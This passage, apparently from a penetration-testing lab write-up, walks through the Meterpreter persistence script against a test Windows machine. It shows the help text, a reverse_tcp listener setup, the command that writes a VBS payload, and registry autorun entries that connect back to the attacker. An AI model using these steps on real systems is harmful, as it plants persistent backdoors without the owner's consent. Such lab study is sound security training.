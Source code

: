 Unfortunately, I couldn't connect to it because I got a bunch of SSL errors and I couldn't find any workaround.

#### Persistence

The Persistence script has more options:

``` plain
meterpreter > run persistence -h
Meterpreter Script for creating a persistent backdoor on a target host.

OPTIONS:

    -A        Automatically start a matching exploit/multi/handler to connect to the agent
    -L <opt>  Location in target host to write payload to, if none %TEMP% will be used.
    -P <opt>  Payload to use, default is windows/meterpreter/reverse_tcp.
    -S        Automatically start the agent on boot as a service (with SYSTEM privileges)
    -T <opt>  Alternate executable template to use
    -U        Automatically start the agent when the User logs on
    -X        Automatically start the agent when the system boots
    -h        This help menu
    -i <opt>  The interval in seconds between each connection attempt
    -p <opt>  The port on which the system running Metasploit is listening
    -r <opt>  The IP of the system running Metasploit listening for the connect back
```

First, we set our listener:

``` plain
msf exploit(handler) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf exploit(handler) > options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.80.155   yes       The listen address
   LPORT     5555             yes       The listen port
...
```

Then on the target machine we install the backdoor and it connects back to us!

``` plain
meterpreter > run persistence -U -i 5 -p 5555 -r 192.168.80.155
[*] Running Persistance Script
[*] Resource file for cleanup created at /root/.msf5/logs/persistence/WIN-D7GA2J1M0TU_20160610.5432/WIN-D7GA2J1M0TU_20160610.5432.rc
[*] Creating Payload=windows/meterpreter/reverse_tcp LHOST=192.168.80.155 LPORT=5555
[*] Persistent agent script is 148445 bytes long
[+] Persistent Script written to C:\Users\wingoat\AppData\Local\Temp\PxRekDybzCP.vbs
[*] Executing script C:\Users\wingoat\AppData\Local\Temp\PxRekDybzCP.vbs
[+] Agent executed with PID 2720
[*] Installing into autorun as HKCU\Software\Microsoft\Windows\CurrentVersion\Run\VNYLJOXnjCVb
[+] Installed into autorun as HKCU\Software\Microsoft\Windows\CurrentVersion\Run\VNYLJOXnjCVb
meterpreter > 
[*] Sending stage (957487 bytes) to 192.168.80.128
[*] Meterpreter session 4 opened (192.168.80.155:5555 -> 192.168.80.128:49172) at 2016-06-10 13:54:36 -0400
```